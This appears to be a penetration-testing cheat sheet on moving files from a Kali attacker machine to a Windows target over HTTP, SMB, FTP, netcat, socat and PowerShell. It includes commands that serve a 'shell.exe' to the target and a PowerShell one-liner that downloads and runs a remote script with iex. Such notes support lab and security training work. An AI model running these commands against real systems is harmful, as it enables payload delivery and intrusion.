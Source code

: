 # File Transfer

## HTTP Server

### Server

``` bash
sudo python3 -m http.server 80
```

### wget

``` bash
wget <uri> -O /path/to/file.ext

wget <uri> -P /path/to/
```

## SMB Protocol

### Install

``` bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo pip install -r requirements.txt
sudo python3 setup.py install
```

### SMB Server

``` bash
$ locate whoami.exe
/usr/share/windows-resources/binaries/whoami.exe

$ smbserver.py a /usr/share/windows-binaries/
```

### SMB Server

``` bash
$ \\<ip_server>\a\whoami.exe
```

## FTP Server on Kali Linux

### Install

``` bash
sudo apt-get install vsftpd
sudo service vsftpd start
```

### Anonymous access

``` bash
sudo nano /etc/vsftpd.conf

=> anonymous_enable=YES
```

## Netcat

### Kali machine

``` bash
nc -nvlp 4444 < /usr/share/windows-resources/binaries/wget.exe
```

### Windows machine

``` bash
nc -nv 192.168.11.130 4444 > wget.exe
```

## Socat

### Kali machine

``` bash
sudo socat TCP4-LISTEN:443,fork file:shell.exe
```

### Windows machine

``` bash
socat TCP4:192.168.11.130:443 file:shell.exe,create
```

## PowerShell

### Kali machine

``` bash
sudo python3 -m http.server 80
```

### Windows machine

``` bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.11.130/wget.exe','C:\Users\Public\Desktop\wget.exe')"
```

## Powercat

``` powershell
Set-ExecutionPolicy Unrestricted

iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

. .\powercat.ps1
```

### Kali machine

``` bash
sudo nc -lnvp 443 > powercat.ps1
```

### Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -i C:\Users\Public\powercat.ps1
```